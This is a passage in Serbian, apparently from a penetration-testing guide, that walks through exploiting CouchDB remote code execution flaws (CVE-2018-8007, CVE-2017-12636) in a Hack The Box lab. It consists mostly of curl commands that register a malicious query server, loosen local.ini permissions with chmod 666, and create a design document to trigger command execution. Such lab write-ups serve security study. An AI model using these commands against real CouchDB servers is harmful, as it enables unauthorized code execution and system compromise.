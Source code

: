 Ova istraživanja potvrđuju mogućnost iskorišćavanja CVE-2018-8007 pod određenim uslovima, posebno zahtevom za upisivanjem u `local.ini` datoteku. Priloženi primeri koda i proceduralni koraci pružaju jasno uputstvo za replikaciju napada u kontrolisanom okruženju.

Za više detalja o CVE-2018-8007, pogledajte obaveštenje od strane mdsec: [CVE-2018-8007](https://www.mdsec.co.uk/2018/08/advisory-cve-2018-8007-apache-couchdb-remote-code-execution/).

### **Istraživanje CVE-2017-12636 sa dozvolama za pisanje na local.ini**

Primer [odavde](https://0xdf.gitlab.io/2018/09/15/htb-canape.html).

Istražena je ranjivost poznata kao CVE-2017-12636, koja omogućava izvršavanje koda putem CouchDB procesa, iako određene konfiguracije mogu sprečiti njeno iskorišćavanje. Uprkos brojnim dostupnim referencama Proof of Concept (POC) na internetu, potrebne su izmene kako bi se iskoristila ranjivost na CouchDB verziji 2, koja se razlikuje od često ciljane verzije 1.x. Početni koraci uključuju proveru verzije CouchDB i potvrdu odsustva očekivane putanje za upitne servere:

```bash
curl http://localhost:5984
curl http://0xdf:df@localhost:5984/_config/query_servers/
```

Da bi se prilagodio CouchDB verziji 2.0, koristi se nova putanja:

```bash
curl 'http://0xdf:df@localhost:5984/_membership'
curl http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/query_servers
```

Pokušaji dodavanja i pokretanja novog upitnog servera naišli su na greške vezane za dozvole, kako je naznačeno u sledećem izlazu:

```bash
curl -X PUT 'http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/query_servers/cmd' -d '"/sbin/ifconfig > /tmp/df"'
```

Dalje istraživanje je otkrilo problem sa dozvolama `local.ini` fajla, koji nije bio moguć za pisanje. Modifikacijom dozvola fajla uz pomoć root ili homer pristupa, postalo je moguće nastaviti:

```bash
cp /home/homer/etc/local.ini /home/homer/etc/local.ini.b
chmod 666 /home/homer/etc/local.ini
```

Naredni pokušaji dodavanja upitnog servera su uspeli, što je potvrđeno nedostatkom poruka o greškama u odgovoru. Uspešna modifikacija `local.ini` datoteke je potvrđena poređenjem datoteka:

```bash
curl -X PUT 'http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/query_servers/cmd' -d '"/sbin/ifconfig > /tmp/df"'
```

Proces se nastavio sa kreiranjem baze podataka i dokumenta, a zatim je pokušan izvršetak koda putem prilagođenog prikaza koji se mapira na novo dodati serverski upit:

```bash
curl -X PUT 'http://0xdf:df@localhost:5984/df'
curl -X PUT 'http://0xdf:df@localhost:5984/df/zero' -d '{"_id": "HTP"}'
curl -X PUT 'http://0xdf:df@localhost:5984/df/_design/zero' -d '{"_id": "_design/zero", "views": {"anything": {"map": ""} }, "language": "cmd"}'
```

